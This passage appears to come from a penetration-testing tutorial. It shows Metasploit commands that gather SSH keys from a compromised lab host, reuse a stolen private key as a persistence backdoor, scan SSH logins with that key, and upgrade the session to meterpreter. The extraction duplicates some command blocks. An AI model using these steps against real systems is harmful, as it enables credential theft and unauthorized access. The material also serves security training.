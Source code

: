 use post/multi/gather/ssh_creds
msf post(ssh_creds) >set session 1
msf post(ssh_creds) >exploit

From given below image you can see we have got all authorized keys store in /home/ignite/.ssh directory in our local machine at /root/.msf4/loot and now use those keys for login into an SSH server.

This can be done manually by downloading keys directly from inside /home/ignite/.ssh as shown in the below image.

As we ensure this by connecting the host machine via port 22 using private key downloaded above. Let’s change the permission for the rsa key and to do this follow the step given below.
chmod 600 key
ssh -i key ignite@192.168.1.103
1
2
	
chmod 600 key
ssh -i key ignite@192.168.1.103

It works without any congestion and in this way, we can use ssh key as persistence backdoor.

SSH login using pubkey

Considering you have id_rsa key of the host machine and want to obtain meterpreter session via Metasploit and this can be achieved with the help of the following module.

This module will test ssh logins on a range of machines using a defined private key file and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access. Key files may be a single private key or several private keys in a single directory.
use auxillary/scanner/ssh /ssh_login_pubkey
auxiliary (scanner/ssh /ssh_login_pubkey)>set rhosts 192.168.1.103
auxiliary (scanner/ssh /ssh_login_pubkey)>set username ignite
auxiliary (scanner/ssh /ssh_login_pubkey)>set key_path /root/.ssh/id_rsa
auxiliary (scanner/ssh /ssh_login_pubkey)>exploit
1
2
3
4
5
	
use auxillary/scanner/ssh /ssh_login_pubkey
auxiliary (scanner/ssh /ssh_login_pubkey)>set rhosts 192.168.1.103
auxiliary (scanner/ssh /ssh_login_pubkey)>set username ignite
auxiliary (scanner/ssh /ssh_login_pubkey)>set key_path /root/.ssh/id_rsa
auxiliary (scanner/ssh /ssh_login_pubkey)>exploit

This will give a command session which can be further updated into the meterpreter session by executing the following command.
sessions -u 1
1
	
sessions -u 1

SSH Password cracking
